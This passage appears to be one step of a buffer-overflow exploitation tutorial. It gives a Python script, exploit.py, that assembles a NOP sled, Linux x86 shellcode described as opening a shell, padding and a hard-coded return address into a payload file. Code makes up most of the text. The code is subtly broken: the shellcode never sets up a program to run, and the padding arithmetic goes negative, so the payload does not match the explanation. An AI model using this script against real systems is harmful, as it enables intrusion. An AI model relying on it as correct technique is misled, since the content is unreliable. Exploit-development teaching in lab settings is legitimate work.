 
### **Step 4: Create the Exploit**

1. **Write the Exploit Script**:
   - Create a new Python script named `exploit.py`:
     ```bash
     nano exploit.py
     ```
   - Paste the following code into `exploit.py`:
     ```python
     import struct

     # Replace this with the actual return address you identified
     ret_address = struct.pack("<I", 0x080484cb)  # Example address; use your own

     # NOP sled: sequence of "no operation" instructions to safely guide the program to the payload
     nop_sled = b"\x90" * 100

     # Shellcode to open a command shell (for Linux/x86 systems)
     shellcode = (
       b"\x31\xc0\x31\xdb\x31\xc9\x31\xd2"
       b"\xb0\x0b\xcd\x80"
     )

     # Padding to fill the buffer up to the return address
     padding = b"A" * (64 - len(nop_sled) - len(shellcode))

     # Construct the payload by combining all parts
     payload = nop_sled + shellcode + padding + ret_address

     # Save the payload to a file for easy access
     with open("payload", "wb") as f:
       f.write(payload)
     ```

   - **Explanation**:
     - The exploit script constructs a payload that includes a **NOP sled** (a sequence of no-operation instructions), **shellcode** to open a command shell, and padding to overwrite the return address with your chosen memory address.

2. **Generate the Payload**:
   - Run the script to create the payload file.
     ```bash
     python3 exploit.py
     ```

---